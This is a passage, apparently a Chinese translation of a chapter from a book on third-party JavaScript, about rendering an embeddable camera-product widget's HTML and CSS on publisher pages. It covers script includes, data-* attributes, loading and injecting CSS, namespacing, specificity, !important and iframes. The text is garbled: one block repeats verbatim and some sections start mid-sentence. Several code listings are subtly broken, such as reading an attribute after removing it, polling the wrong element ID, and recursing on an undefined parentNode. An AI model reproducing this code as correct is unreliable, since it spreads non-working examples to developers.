  var script = document.createElement('script');
  script.async = true;
  script.src = 'http://camerastork.com/widget.js?product=1234';
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(script, entry);
})();
</script>
```

在小组件代码加载后，使用`document.getElementById`可以很容易在 DOM 中识别脚本包含。获取脚本元素的引用，然后将你新创建的容器元素插入它之前：

```javascript
var appendTo = document.getElementById('stork-widget');
appendTo.parentNode.insertBefore(div, appendTo);
```

列表 3.1

脚本包含片段，现在有一个唯一的 ID

# 第 3 章

## 渲染 HTML 和 CSS

这是带有该 ID 的脚本包含片段的第一个实例，因此任何后续片段都将指向错误的渲染位置。

现在，许多第三方应用程序可能并不打算在每个页面上支持多个实例，在这种情况下，你坚持使用我们刚刚介绍的内容即可。但对于 Camera Stork 组件，这是一个你应该支持的场景。理想情况下，你希望发布者在页面上尽可能地容纳多个 Camera Stork 组件实例，以帮助你推广尽可能多的产品。让我们看看实现这一目标的方法。

### 3.1.3 添加多个组件

如果你打算在一个页面上支持你的组件的多个实例，你应该避免使用 ID 来标识你的脚本包含片段，而是使用`data-*`属性。你也可以备选使用类，但`data-*`属性具有额外的优势，我们本节的稍后部分介绍。

列表 3.2 显示了之前的 Camera Stork 脚本包含，这次它通过`data-stork-widget`自定义属性而不是 ID 来标识。你会发现`data-stork-widget`没有值——别担心，它仍然是有效的 HTML。

```html
<script data-stork-widget>
(function() {
  var script = document.createElement('script');
  script.async = true;
  script.src = 'http://camerastork.com/widget.js?product=1234';
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(script, entry);
})();
</script>
```


此版本使得在发布者多次添加的情况下，查询脚本包含片段的多个实例成为可能。缺点是，查询 DOM 中的 `data-*` 属性比通过 ID 获取元素要慢。这里有一个示例函数，它使用 jQuery 在脚本包含片段之前插入 HTML，该片段使用之前所示的 `data-*` 属性来标识自已。jQuery 一如既往地让这变得异常轻而易举：

```javascript
function appendWidgetMarkup(html) {
  jQuery('script[data-stork-widget]').first()
    .removeAttr('data-stork-widget')
    .before(html);
}
```

此辅助函数找到第一个带有 `data-stork-widget` 属性的脚本元素，并在其之前插入标记。然后它移除 `data-stork-widget` 属性，这样它就不会被代码的任何后续执行再次选中。这样，如果发布者包含了你的脚本包含片段的第二个实例，该片段（现在由该片段加载的 `data-*` 属性标识）不会意外在第一个脚本片段的位置输出 HTML。

#### 防止竞态条件

这引发了一个潜在的竞态条件。考虑发布者想在其网页上包含两个 Camera 组件的情况，分别对应两个不同的产品。为了实现这一点，他们包含了两个独立的脚本包含片段，每个片段向应用程序代码传递不同的产品 ID。如果第二个片段以某种方式在第一个之前加载并执行（这是可能的，因为它们是异步加载的），当应用程序尝试向页面输出 HTML 时，它将查询带有 `data-stork-widget` 属性的元素，并获取第一个脚本包含片段而不是第二个。等尘埃落定，这将导致每个产品组件的渲染顺序相反，因此位于相反的位置（见图 3.1）。

为了解决这个问题，`data-stork-widget` 属性应该额外标识要渲染的目标产品。这样，你就可以确保只有匹配的产品在那个位置被渲染。这将示例脚本包含转换为以下内容：

```html
<script data-stork-product="1337">
  ...
</script>
```

之后，不再查询带有 `data-stork-product` 属性的任意元素，而是寻找包含你尝试渲染的产品 ID 的元素：

```javascript
function appendWidgetMarkup(id, html) {
  jQuery('script[data-stork-product="' + id + '"]')
    .removeAttr('data-stork-product')
    .before(html);
}
```

移除 `data-stork-product` 属性仍然是一个主意，因为发布者可能包含两个引用相同产品 ID 的片段。如果没有移除属性，两个产品将在同一位置渲染。

图 3.1 竞态条件：组件 A 在组件 B 之后加载并渲染。

### 3.1.4 解耦目标

到目前为止，我们一直在讨论通过在同一页面上包含多个脚本片段来加载组件的多个实例。这是一个灵活的解决方案，适用于 Camera Stork 等可以在页面上有多个实例的组件。但是，这种实现存在效率的问题：发布者必须为每个 Camera Stork 组件冗余地加载你的应用程序代码。为了避免这种情况，你可以通过让发布者单独指定目标将渲染位置与脚本片段解耦。这意味着你的应用程序只需加载一次代码即可渲染多个实例。

为了做到这一点，你再次让发布者使用 `data-*` 属性来表示渲染位置。但这次这些属性可以与脚本包含分开。示例代码指定了两个渲染位置，但使用了单个脚本包含。

```html
<div data-stork-product="1337"></div>
<div data-stork-product="2012"></div>
<script>
(function() {
  var script = document.createElement('script');
  script.async = true;
  script.src = 'http://camerastork.com/widget.js';
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(script, entry);
})();
</script>
```

你会发现脚本包含没有声明任何产品参数。它不需要：产品 ID 通过 `data-stork-product` 属性可用。你的应用程序代码只需要查询 DOM 中所有 `data-stork-product` 属性实例，提取产品 ID，并在该处渲染匹配的产品：

```javascript
jQuery('[data-stork-product]').each(function() {
  var location = jQuery(this);
  location.removeAttr('data-stork-product');
  var id = location.attr('data-stork-product');
  getWidgetData(id, function(data) {
    renderWidget(data, location);
  });
});
```

列表 3.3 分别定义渲染位置的脚本包含。

你会注意到，和之前的示例一样，`data-stork-product` 属性在每次渲染后都会从 DOM 中移除。尽管不再要求发布者在 HTML 中包含多个脚本来渲染多个组件，但在我们生活的复制世界里，他们可能会这样做。在这种情况下，你不希望在任何后续脚本执行时插入组件的副本。或者，你可以让你的代码在第二次加载时提前退出。

### 3.2 为你的 HTML 样式

此时，如果你遵循 3.1.3 和 3.1.4 节的示例，你的应用程序 HTML 已经在发布者的页面上渲染，但看起来很糟糕（见图 3.2）。这是因为它是没有任何样式的裸 HTML。在今天过度设计的 Web 应用程序世界里，这是远远不够的。你需要为你的组件 HTML 设置样式以便其美观。

对于第三方应用程序来说，为 HTML 设置样式与加载额外的脚本文件一样困难：你无法控制页面的 HTML 源代码，并且从第三方 JavaScript 动态加载样式。有三种基本方法：

- 在 HTML 中内联样式；
- 动态加载单独的 CSS 文件；
- 在 JavaScript 源代码中嵌入样式表规则。

让我们从内联样式开始。

#### 3.2.1 使用内联样式

为 HTML 设置样式最直接的方法是在 HTML 元素上内联样式规则。这意味着在元素的 `style` 属性内部声明 CSS。例如，对于 Camera Stork 组件的简单版本，你可能会插入以下 HTML：

```html
<div style="width:200px">
  <h3 style="font-size:18px">Mikon E90 单反反反</h3>
  
  <p style="font-weight:bold">$299.99</p>
  <p>4.3/5.0 &bull; 176 条评论</p>
</div>
```

这不是设置元素样式最光鲜的方法，但它有效。有一个巨大的优点：以这种方式设置样式的 HTML 不可能与发布者页面的样式冲突。我们将在本章的晚些部分更多讨论这一点，但通过放弃单独样式表（通过标签名、类名、ID 等目标元素），你几乎可以保证不会意外设置发布者页面中你组件占据区域之外的部分。

图 3.2 使用无样式 HTML 渲染的 Camera Stork 产品组件。

由发布者定义的冲突规则所修改，因为你的样式规则是直接放置在它们所影响的元素上的。

不使用内联 CSS 的原因是什么？这与你编写一个普通的本地 Web 应用程序没有区别。取决于你的小部件的复杂程度，你可能需要在整个 HTML 中冗余地重复许多样式属性。如果你正在开发多个小部件，这种重复会变得更加糟糕；在没有任何可重用 CSS 的情况下，所有内容都必须重复。不说说，内联 CSS 可能会迅速变得难以维护，并可能导致你的设计师在深夜里哭泣。

但并不意味着内联 CSS 是不可行的。如果你有一个特别简单的应用程序，那么拥有无冲突样式的额外处处可能大于维护内联属性所付的痛苦。

#### 3.2.2 加载 CSS 文件

对于一个中等复杂度的小部件，使用单独的 CSS 文件为元素设置样式可能更合适。就像普通的 Web 应用程序一样，你可以在单个文件中定义所有的 CSS 规则，例如 `styles.css`。与普通的 Web 应用程序不同，你需要通过 JavaScript 动态加载这些 CSS 文件，类似于以前在第 2 章加载额外的 JavaScript 文件的方式。

动态加载 CSS 文件非常简单。你只需要创建一个 `<link>` DOM 元素，将该元素的 `href` 属性指向你的目标 CSS 文件，并将该元素添加到页面中。CSS 文件在通过 JavaScript 动态注入时总是异步加载的，因此你不会阻塞其他文件的风险：

```javascript
function loadStylesheet(url) {
  var link = document.createElement('link');
  link.rel = 'stylesheet';
  link.type = 'text/css';
  link.href = url;
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(link, entry);
}
```

再次，这并不困难，但有一个陷阱。这段代码不知道样式表文件何时完成加载。如果你尝试在相应的 CSS 规则加载之前在页面上渲染元素，可能会有一段时间这些元素是无样式的。在 Web 开发世界中，这被称为 `FOUC`，或无样式内容闪烁（flash of unstyled content）。可以说，`FOUC` 是不受欢迎的。

##### `<link>` 标签所需的属性

在本书的早期，我们提到过你可以从 `<script>` 标签中省略 `type="text/javascript"`，它们仍然会按预期运行——即使在旧浏览器中也是如此。遗憾的是，对于 `<link>` 标签并非如此。`type` 和 `rel` 属性必须存在，以便它们在所有浏览器中正常工作。

#### 确定 CSS 文件何时加载

没问题，你只需要添加一个事件处理程序，它会在样式表加载时触发，就像你在第 2 章加载额外的 JavaScript 文件时做的那样。但你做不到。这是因为 CSS 文件是使用 `<link>` HTML 元素加载的，并不是每个浏览器都有在 `<link>` 元素加载时触发的 `load` 事件。

所以，为了保持浏览器兼容性，你需要依靠一种技巧，即持续轮询页面，直到 CSS 文件中的规则生效。为了实现这一点，你首先需要在 CSS 文件中添加一个 ID 规则，其唯一目的是确定文件何时加载。在你将样式表添加到页面之后，创建一个带有该 ID 的元素并将其添加到页面。如果元素具有了 CSS 文件的特定颜色，你就知道文件已加载。

测试 CSS 规则如下：

```css
#stork-ready {
  color: #bada55;
}
```

实际使用的颜色并不重要，只要它是不常见的——`#bada55` 应该很合适。伴随的 `!important` 关键字用于此规则高于页面上其他可能冲突的规则。

如果你是 CSS 初学者，不要担心——我们将在本章稍后介绍 `!important` 和 CSS 权重。接下来是轮询页面以查找测试规则何时生效的代码（列表 3.4）。你不会为相机小部件使用此代码段，因为在下一节中，我们将展示一种稍微高效的引入 CSS 方法。但仍要阅读此列表，因为很多时候你会在自己的项目中使用它。

```javascript
function isCssReady(callback) {
  var testElem = document.createElement('span');
  testElem.id = 'stork-css-ready';
  testElem.style = 'color: #fff';
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(testElem, entry);
  (function poll() {
    var node = document.getElementById('css-ready');
    var value;
    if (window.getComputedStyle) {
      value = document.defaultView
        .getComputedStyle(testElem, null)
        .getPropertyValue('color');
    }
    else if (node.currentStyle) {
      value = node.currentStyle.color;
    }
    // 列表 3.4: 测试颜色的存在
    if (value && value === 'rgb(186, 218, 85)' || value.toLowerCase() === '#bada55') {
      callback();
    } else {
      setTimeout(poll, 500);
    }
  })();
}
```

列表 3.4：测试颜色的存在

- 创建测试 `<style>` 元素；
- 将颜色重置为白色；
- 安全地添加测试元素；
- 使用 W3C 方法获取颜色；
- 对于 Internet Explorer，是否具有来自样式表的预定义颜色？
- 如果否，继续轮询。

#### 将 CSS 嵌入 JavaScript

内部，然后将 `<style>` 元素附加到 DOM 中。因为你可以将此 CSS 字符串嵌入到现有的 JavaScript 代码中，所以你可以避免加载单独的 CSS 文件，为你的应用程序节省一次额外的 HTTP 请求。

为了更好地理解其工作原理，请考虑下面这个简单的 CSS 规则集：

```css
.stork-container {
  width: 300px;
  height: 300px;
}

.stork-container a {
  text-decoration: none;
}
```

目标是将这样的规则集转换为字符串，并存储在 JavaScript 代码中某处的变量中。例如，这些规则可以转换为以下内容：

`Stork.css = '.stork-container { width:300px; height:300px; }' + '.stork-container { text-decoration: none; }';`

之后，只需将此字符串作为样式规则注入页面中即可。我们稍后会讨论这一点，但首先，你到底如何将 CSS 文件转换为像这样的 JavaScript 字符串呢？

## 将 CSS 转换为 JavaScript 字符串

你需要某种构建工具来读取你的 CSS 文件，将其转换为 JavaScript 字符串，然后将该字符串作为变量嵌入到你最终构建的 JavaScript 文件中。这可能不是你希望在开发期间做的事情；否则，你每更改一次样式规则，就必须重新构建 JavaScript。因此，嵌入 CSS 是一种最好仅供生产环境使用的技术。

列表 3.5 显示了一个示例 Python 函数，它可以将 CSS 文件转换为 JavaScript 字符串。它使用了一个奇巧的 Python CSS 解析库名为 `cssutils`（参见 `http://pypi.python.org/pypi/cssutils/`）。但与书中的其他服务器端示例一样，这个简单的函数可以用任何语言编写。

```python
import cssutils

def convert_css(css, js_var):
    """
    用法:
    convert_css('.rule { display: block; }', 'MyApp.styles')
    => "MyApp.styles = '.rule{display:block}';"
    """
    cssutils.ser.prefs.useMinified()
    out = cssutils.parseString(css)
    out = out.cssText.replace("'", "\\'")
    return "%s = '%s';" % (js_var, out)
```

**列表 3.5**：将 CSS 规则集转换为 JavaScript 字符串的 Python 脚本

- 告诉 `cssutils` 压缩输出的 CSS；
- 将输出的 JavaScript 字符串赋值给命名空间的 JavaScript 变量；
- 例如 `Stork.styles`。

## 将 CSS 注入 DOM

在有了 CSS 字符串后，下一步是将其插入页面（列表 3.6）。正如我们之前提到的，你会创建一个新的 `<style>` DOM 元素，将 CSS 字符串作为文本节点附加到它，然后将样式元素附加到页面。此样式元素可以放置在页面的任何位置，就像你之前做的那样，你会将其插入到找到的脚本元素之前。


```javascript
function injectCss(css) {
  var style = document.createElement('style');
  style.type = 'text/css';
  css = css.replace(/\\}/g, "}\n");
  if (style.styleSheet) {
    style.styleSheet.cssText = css;
  } else {
    style.appendChild(document.createTextNode(css));
  }
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(style, entry);
}
```

大告成！这种嵌入 CSS 的好处是，你不需要复杂的辅助函数来检测 CSS 是否已就绪（轮询 DOM 的样式变化）。你可以在 CSS 注入后立即执行你的“就绪”回调；无需等待。

除了必须包含一个构建步骤来将 CSS 文件转换为 JavaScript 字符串外，缺点还包括调试你的 CSS 比单独加载 CSS 要困难得多。这是因为大多数浏览器开发者工具（Firebug、Chrome 开发者工具等）会将你的样式规则视为父页面的一部分，而不是将它们归类在归属于你域名的文件下。我们不认为这是一个致命问题，但它可能会令人感到困扰。

到此时，你应该知道如何在发布者的 DOM 上渲染你的小部件的 HTML，并使用我们刚刚介绍的三种技术之一对该 HTML 进行样式化。Camera Stork 小部件现在看起来应该不错了；它不是裸露的 HTML，而是一件完全样式化的艺术品（见图 3.3）。

这个例子看起来很好，但那是因为它是在一个没有任何其他 HTML 或 CSS 的空白测试页面上渲染的。如果你将其部署在一个功能完整的发布者网站上，很有可能发布者定义的某个 CSS 规则会以某种方式发生冲突，并导致整个界面看起来不协调。

**列表 3.6** 向页面注入 CSS 的辅助函数

- 将规则拆分到单独的行上以提高可读性
- 对于 Internet Explorer，使用样式元素的 `cssText` 属性
- 其他浏览器可以附加新的 DOM 节点

（图 3.3：完全样式化后的 Camera Stork 小部件）

**防御性 HTML 和 CSS**

在开始编写任何 HTML 或 CSS 之前，你必须对应用程序的外观和感受做一个重要决定。你希望你的应用程序在任何地方看起来都一样吗？还是你希望应用程序继承其托管页面的原生外观和感受？你的答案将对你的策略产生深远影响。

有一点是不变的：在某种程度上，你将实践我们所说的*防御性*渲染。防御性，意思是采取措施输出 HTML 和 CSS，以尽可能减少父页面对你应用程序的影响。你越不希望小部件受到父页面的影响，就越需要采取步骤。这些步骤可以小到对你的 HTML 和 CSS 进行命名空间处理以减少冲突，或者过度指定你的 CSS 以使它们具有优先级。对于想要完全免受父页面影响的小部件，它可能意味着在完全独立的 DOM 中提供你的小部件，并将其嵌入在 `iframe` 中。我们将在本章后面的部分讨论 `iframe`。现在，我们将专注于渲染与发布者位于同一个 DOM 上的 HTML 和 CSS。遗憾的是，这也是缺点！发布者可能在无意中拥有 CSS 规则和/或 JavaScript 代码，意外地针对你的小部件并造成破坏。我们将研究许多方法来保护应用程序的 HTML 和 CSS 免受发布者代码的影响。首先，你将学习 HTML 和 CSS 命名空间。然后，你将学习 CSS 优先级以及页面样式如何覆盖你的样式。最后，你将学习覆盖页面父样式的技术，通过过度指定你的 CSS 并滥用 `!important` 关键字。首先是命名空间。

### 3.3.1 命名空间

如果你回顾本章的源代码示例，你可能会注意到所有的 DOM ID、类、`data-*` 属性和匹配选择器都带有 `stork-` 前缀。目的是？减少这些属性与父页面发生冲突的可能性。

考虑以下情况。你的小部件有一个顶层 `<div>` 元素充当容器。它通过设置显式的宽度和高度来实现这一点，有效地界定了小部件占据的区域。你为这个 `<div>` 分配了一个简单的类名 `container`，它与你随附 CSS 中的样式规则匹配：

```html
<div class="container">
  ...
</div>
```

```
<style>
.container { width: 200px; height: 200px; }
</style>
```

对于一个普通的居家型应用来说，这可能完全合适，但对于第三方应用来说，这是完全不可接受的。原因何在？这种通用的类名很有可能已经被父页面使用了。如果你引入了此样式规则，可能会覆盖发布者设置的现有样式规则，并破坏他们的网站布局。或者，反过来，他们的规则可能会覆盖你的规则，并在无意中调整了你的小组件的大小。

解决方案是什么？为你的所有类名（以及其他属性）加上一个与你的应用程序唯一的标识符——即一个*命名空间*（namespace）。以 Stork 小组件为例，之前的 HTML 标记应该修改为如下所示：

```html
<div class="stork-container">
  ...
</div>
```

```
<style>
.stork-container { width: 200px; height: 200px }
</style>
```

如果这看起来很眼熟，那它应该是。在第 2 章中，你对 JavaScript 代码进行了命名空间处理，这样你就不会声明与父页面上运行的代码冲突的全局对象。这是同样的理念，它扩展到了你插入页面的每一个 HTML 部分：ID、class、`data-*` 属性、表单名称等。

对于任何直接渲染到发布者页面的第三方应用程序，对 HTML 和 CSS 进行命名空间处理是必须的。这不仅对于防止 CSS 规则冲突是必要的；还可以想象，父页面可能有 JavaScript 在查询 DOM 元素，这些元素的标识属性可能与你的属性匹配。对于你放在 DOM 上的*每一个*东西，命名空间处理时都要严谨！

### 3.3.2 CSS 特性 (Specificity)

需要注意的是，尽管命名空间处理很有帮助，但对 HTML 和 CSS 进行命名空间处理只能防止发布者使用与你具有同名属性的样式或查询。不幸的是，你的小组件仍然可能与父页面定义的样式冲突，即使他们的 CSS 使用的 ID、类名和属性没有直接引用你的元素。这是因为某些 CSS 规则在浏览器中的权重更高，可能会优先于你可能定义的看似无关的规则。这种现象被称为*CSS 特性*（CSS specificity），在安全地在发布者页面上渲染元素之前，你需要理解它。

让我们回到上一节关于命名空间的容器示例。假设发布者的 HTML 有一个顶层 DIV 裹着了他们所有的内容，其 ID 为 `page`：

```html
<div id="page">
  ... <!-- 发布者内容 -->
  <div class="stork-container">
    ... <!-- Stork 内容 -->
  </div>
</div>
```

此外，假设该页面有以下 CSS，其中第一个规则由发布者定义，第二个规则（针对 `stork-container`）由你的第三方脚本添加：

```css
/* 发布者 */
#page div {
  background-color: green;
}

/* Camera Stork */
.stork-container {
  background-color: blue;
}
```

现在，`.stork-container` 将具有什么颜色？答案可能会让你惊讶并沮丧：*绿色*（green）。在这个简单的例子中，发布者的规则（`#page div`）优先级高于你的第三方应用的类规则（`.stork-container`）。发生这种情况是因为浏览器对包含 ID 的规则的权重高于针对类或属性的规则。

#### CSS 规则优先级

W3C CSS 规范概述了浏览器应该如何优先考虑不同类型的规则。以下是这些规则类型的列表，按优先级从高到低排序：

1. 内联样式（`style="..."`）
2. ID
3. 类（Classes）、属性和伪类（`:focus`, `:hover`）
4. 元素（`div`, `span` 等）和伪元素（`:before`, `:after`）

根据此图表，内联样式的权重高于所有后续规则类型：ID、类和元素。这在逻辑上一直向列表中向下延伸，ID 的优先级高于类和元素，依此类推。此列表中有一个例外：标记有 `!important` 关键字的属性具有最高优先级。但请注意，`!important` 关键字影响的是规则中的单个属性，而不是整个规则。

当你有多个权重相同的 CSS 规则，且每条规则在理论上都可能影响同一个元素时，会发生什么？让我们来看一个例子：

```html
<div class="stork-container">
  <span class="stork-msg">吃你的蔬菜！</span>
</div>
```

```
<style>
.stork-container { background-color: blue; }
.stork-container span { background-color: red; }
.stork-container .stork-msg { background-color: yellow; }
</style>
```

你认为 `span` 的颜色是什么？答案再次可能很令人惊讶：*黄色*（yellow）。尽管这些规则主要都是基于类的，但第二条规则（`.stork-container span`）被认为比第一条规则更具体，而第三条规则（`.stork-container .stork-msg`）比第二条规则更具体。这是如何运作的？

#### 内联样式是王

在 CSS 特性方面，的确如此。如果你还记得本章早些时候，我们提到过内联样式的优点是极少与父页面发生冲突。现在显而易见了：它们的优先级高于其他所有类型的普通 CSS 规则（不包括带有 `!important` 关键字的规则）。如果你正在编写一个特别的小组件，使用内联样式可能不是一个坏主意；你将避免大多数特性冲突。

浏览器使用简单的评分系统来确定哪条规则优先。对于给定的规则，组成该规则的每个选择器都有一个特定的值。这些值相加就得到了特性分数。当多个规则影响同一个元素时，浏览器会比较每条规则的特性分数，分数最高的规则优先。在平局的情况下，最后定义的规则胜出。你会很快发现这些并不是普通的数字。特性分数实际上是一个形式为 (*a, b, c, d*) 的元组，其中 *a* 比 *b* 更有价值，*b* 比 *c* 更有价值，依此类推。


在 CSS 特性方面，的确如此。如果你还记得本章早些时候，我们提到过内联样式的优点是极少与父页面发生冲突。现在显而易见了：它们的优先级高于其他所有类型的普通 CSS 规则（不包括带有 `!important` 关键字的规则）。如果你正在编写一个特别的小组件，使用内联样式可能不是一个坏主意；你将避免大多数特性冲突。

浏览器使用简单的评分系统来确定哪条规则优先。对于给定的规则，组成该规则的每个选择器都有一个特定的值。这些值相加就得到了特性分数。当多个规则影响同一个元素时，浏览器会比较每条规则的特性分数，分数最高的规则优先。在平局的情况下，最后定义的规则胜出。你会很快发现这些并不是普通的数字。特性分数实际上是一个形式为 (*a, b, c, d*) 的元组，其中 *a* 比 *b* 更有价值，*b* 比 *c* 更有价值，依此类推。

## 第三章

### 渲染 HTML 和 CSS

#### 过度规范化 CSS 与代码质量工具不兼容

如果你习惯像这样对你的 CSS 进行过度规范化，你可能会发现一个意料之外的敌人：那些评估你 CSS 代码质量的工具，例如 CSS Lint、Google Page Speed 和 Yahoo 的 YSlow。这些工具会提示你正在创建冗余的 CSS 选择器，并建议你移除这些选择器，以减小文件大小并提高浏览器的 CSS 性能。遗憾的是，这些工具在设计时并没有考虑到第三方脚本，并且无法公平地评估过度规范化 CSS 的用处。对于第三方应用程序而言，过度规范化的带来的处远大于文件大小的增加和微乎其微的性能影响。

#### 滥用 `!important`

如果你觉得通过额外的 ID（或类）选择器来过度规范化 CSS 仍然不够彻底，你可以祭出“核武器”选项：`!important` 关键字。正如我们之前介绍过的，CSS 规则中带有 `!important` 关键字的属性优先级最高，甚至高于内联样式。这是因为 `!important` 关键字的设计初衷是为浏览器用户提供一种可靠的方法来覆盖“作者”（发布者）样式，特别是在浏览器插件或特定特定样式的情况下。你可以通过在所有的 CSS 属性上使用 `!important` 来滥用它，从而实际上使其优先级高于所有其他规则。以下是在单条 CSS 规则上使用 `!important` 关键字的方法：

```css
.stork-price {
  font-size: 11px !important;
  color: #888 !important;
  text-decoration: none !important;
  display: block !important;
}
```

由于它是按属性生效的，`!important` 关键字需要像这样重复，这在长且复杂的样式表中可能会变成一种负担。但作为交换，你获得了一组稳如磐石的样式表，它们*极不可能*被发布者的页面重置。仍然可以想象，发布者可能会反过来使用 `!important` 来针对你的元素并设置他们自己的样式，到那时，他们很可能是有意地针对你的元素进行定制。一方面，如果你正试图保持一致的视觉效果，这可能会让你感到沮丧。但如果你已经决定允许发布者自定义你的小组件，这可能正是预期的行为。

有一点必须明确：与发布者共享 DOM 会使渲染一个样式一致的小组件变得特别困难。尽管你可以采取措施对 CSS 规则进行过度规范化以减少冲突的可能性，但发布者始终可能无意或刻意地使用他们的规则针对你的元素。但如果与发布者共享 DOM 确实造成了这么多困扰，那么是否可以在 DOM *之外* 渲染你的小组件呢？答案是肯定的——你可以。

### 3.4 在 iframe 中嵌入内容

有一种方法可以渲染你的小组件，使其不受发布者样式规则的影响，那就是在 iframe 内部渲染你所有的 HTML 和 CSS。

iframe 的设计就是为了完成这一特定任务的：它们是“内联”框架，允许你嵌入来自另一个网页的内容。由于它们使用了独立的窗口和 DOM 环境，因此它们不会继承任何父级样式，而且不太会被恶意脚本意外查询（见图 3.4）。但这也是有代价的：在 iframe 之后提供的 HTML 和 CSS 比起直接在发布者的 DOM 上渲染，灵活性更低，也更难进行定制。

使用 iframe 起初是直观的。你首先创建一个新的 `iframe` 元素，并将其添加到页面中的目标位置，就像处理任何其他 HTML 元素一样。这里有一个小陷阱：iframe 不会自动调整其大小以适应内容，因此你需要手动指定高度和宽度。你可能还需要重置一些默认的 iframe 样式，例如边框。² 以下是代码示例；它创建了一个新的 250 x 300 像素的无边框 iframe，而且恰好是完全空的：

```javascript
var iframe = document.createElement('iframe');
iframe.style.width = '250px';
iframe.style.height = '300px';
iframe.style.border = 'none';
target.parentNode.insertBefore(iframe, target);
```

² iframe 的实际默认边框样式是 `border: 2px inset`，这在 1998 年看起来很好。

```html
<iframe width="100" height="100" src="http://widget.com/weather.html"/>
```

（图 3.4：iframe 是嵌入在你的网页中的窗口，拥有它自己的文档。iframe 的文档可能来自与主窗口文档不同的服务器。iframe 内部的文档不会继承父页面的 CSS 规则。iframe 允许你将独立的 HTML 文档嵌入网页中。它们不会继承父页面的 CSS 规则。）

在 iframe 发挥作用之前，需要向其填充内容（HTML 和 CSS），你可以使用两种技术之一来实现。最常见的用例是在 iframe 内部加载远程文档。这是通过在将 iframe 添加到 DOM 之前将外部 URL 赋值给 iframe 的 `src` 属性来实现的。即使不加载远程文档，使用我们所说的*无源 iframe*（src-less iframes）在 iframe 中嵌入内容。

#### iframe 历史

iframe 首次于 1997 年在 Internet Explorer 4 中引入，随后在 HTML 4.0 中标准化。HTML 4.0 标准还描述了与框架相关的元素，如 `frame`、`frameset` 和 `noframe`，但除了 iframe 之外，所有这些元素在 HTML5 中都被弃用了。iframe 之所以保留，是因为它们被广泛认可并接受了。iframe 允许你将独立的 HTML 文档嵌入网页中。它们不会继承父页面的 CSS 规则。

**70**

第 3 章

## 渲染 HTML 和 CSS

### 3.4.2 外部 iframe

外部 iframe 是保护小部件（widget）标记免受发布者干扰的最后防线。与不带 `src` 的 iframe 不同，外部 iframe 显示的是从外部 URL 传输的内容。这是 iframe 的标准用例：从远程 URL 嵌入内容（见图 3.5）。但由于内容来自不同的 URL，浏览器会阻止宿托管在父页面上的代码通过脚本访问该 iframe. ⁵ 这意味着发布者无法以任何方式修改 iframe 的内容。

要创建一个外部 iframe，你将遵循之前相同的步骤，但这次要将 iframe 的 `src` 属性设置为托管在你的服务器上的网页的 URL（例如，在 camerastork.com 上）。因为你无法从主应用程序代码访问该页面的内容，你将需要将任何必要的参数或应用状态作为 URL 的一部分传递。这可以通过查询字符串参数实现，也可以使用文档片段（document fragment）。例如，在 Stork 部件的情况下，这将是产品 ID。外部页面将从 URL 中提取产品 ID，获取相应的数据，并渲染一个包含部件最终内容的完整 HTML 页面。

例如，iframe 的 `src` 属性可以设置为以下 URL：

```javascript
iframe.src = 'http://camerastork.com/product.html?id=1337';
```

4 查看“在 IE 中，怪异模式下页面上的 iframe 同样处于怪异模式”，CSS-TRICKS，2011 年5 月 26 日：http://css-tricks.com/ie-iframe-quirksmode/。

5 阻止通过 JavaScript 访问外部 iframe 的浏览器现象被称为*同源策略*（the same-origin policy）。我们将在下一章详细介绍。

开发者们使用 HTML5 Shiv 库非常成功，该库在 IE9 受到怪异模式影响时恢复了一些正常。⁴ 我们的建议是：只需留意怪异模式以及它对你的应用程序可能的影响。好消息是，极少数网站在怪异模式下渲染，而且它们原本的样式可能就很糟糕！

camerastork.com/product.html

publisher.com


Mikon E90 数字单反

$599.99 – 立即购买

4.3/5.0 • 176 条评论

图 3.5

通过外部 iframe 展示的 Camera Stork 部件。父页面无法访问或影响框架的内容（反之亦然）。

www.it-ebooks.info

**71**

### 在 iframe 中嵌入内容

此 URL 对应一个服务器端点，该端点负责将小部件内容作为完整的 HTML 页面输出。该页面可能可以在服务器端生成（因为它是从你的服务器传输），也可以使用 JavaScript 在客户端生成。以下是来自 http://camerastork.com/product.html?id=1337 的 HTML 输出：小部件标记与之前的示例相同，但这次它被封装在了一个完整的 HTML 文档中：

```html
<!DOCTYPE html>
<html>
<body>
<style>/* ... */</style>
<h3>Mikon E90 Digital SLR</h3>

<p>$599.99</p>
<p>4.3/5.0 • 176 条评论</p>
</body>
</html>
```

你可能已经很清楚，如果你使用这种方法，你将把大量的渲染逻辑从你的脚本转移到提供该 iframe 的代码中。这是合理的：因为它是外部 iframe，你无法从应用程序代码中修改 HTML 元素。但如果你无法触碰内容，发布者也无法触碰，这就是为什么你忍受了这种不便。

### 3.4.3 继承样式

iframe 是保护你的内容免受父样式和 JavaScript 代码影响的极佳方法。但它们最大的优势也是它们主要的缺点：在默认情况下，你的 iframe 将不会从父页面继承任何内容，包括字体族、字号、颜色以及一系列其他样式。在你努力通过将其嵌入 iframe 中来使小部件在任何地方看起来都一致时，它最终可能看起来非常格格不入，因为它没有继承页面的一些原生样式（见 3.6）。

解决方案是什么？使用 JavaScript 检测页面的基本样式规则并将其注入到你的 iframe 中。对于不带 `src` 的 iframe，你可以直接从第三方脚本注入样式。对于外部 iframe，你需要将样式作为 URL 或哈希片段（hash fragment）的一部分，并使用运行在外部 URL 上的代码注入样式。

#### 检测页面的基本样式

首先，如何检测页面的基本样式？查看下方列表中的辅助函数，它接收一个元素和一个样式属性（如 font-size），并返回该属性的值。

6 这只有部分正确。有方法可以受控地访问外部 iframe，但要做到这一点，你必须手动从 iframe 内部暴露钩子（hooks）。我们将在接下来的章节中详细讨论，但目前你可以假设 iframe 否则是无法访问的。

www.it-ebooks.info

**72**

第 3 章

## 渲染 HTML 和 CSS

```javascript
function getStyle(node, property, camel) {
  var value;
  if (window.getComputedStyle) {
    value = document.defaultView
      .getComputedStyle(node, null)
      .getPropertyValue(property);
  } else if (node.currentStyle) {
    value = node.currentStyle[property] ?
      node.currentStyle[property] :
      node.currentStyle[camel];
  }
  if (value === '' ||
      value === 'transparent' ||
      value === 'rgba(0, 0, 0, 0)') {
    return getStyle(parentNode, property, camel);
  } else {
    return value;
  }
}
```

